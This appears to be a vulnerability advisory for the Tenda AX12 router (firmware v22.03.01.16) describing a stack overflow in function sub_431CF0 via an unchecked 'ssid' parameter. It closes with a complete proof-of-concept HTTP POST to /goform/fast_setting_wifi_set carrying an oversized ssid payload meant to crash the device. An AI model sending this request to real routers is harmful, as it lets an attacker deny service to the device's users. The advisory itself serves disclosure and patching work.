 # Tenda router sub_431CF0 function stack overflow vulnerability

> vendor:Tenda
>
> product:AX12
>
> version:v1.0 v22.03.01.16
>
> type:Stack Overflow

## Vulnerability Description

Tenda AX12 v1.0 v22.03.01.16 were discovered to contain a stack overflow via the ssid parameter in the sub_431CF0 function.

## Vulnerability Details

In the function, V2 obtains the variable named "ssid" in the web request and passes it directly to the sprintf function without processing, which may cause a stack buffer overflow based on V19. Therefore, by requesting this page, an attacker can leverage crafted spill data to perform a denial of service attack.

![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/298a8e7b-a884-47b4-9e44-a3635f5f3947)
![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/406a80a4-10d3-4475-be0d-60027364e1c7)


## POC

    POST /goform/fast_setting_wifi_set HTTP/1.1
    Host: 192.168.244.130
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 1000
    Origin: http://192.168.244.130
    Connection: close
    Cookie: password=
    Referer: http://192.168.244.130/main.html

    ssid=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

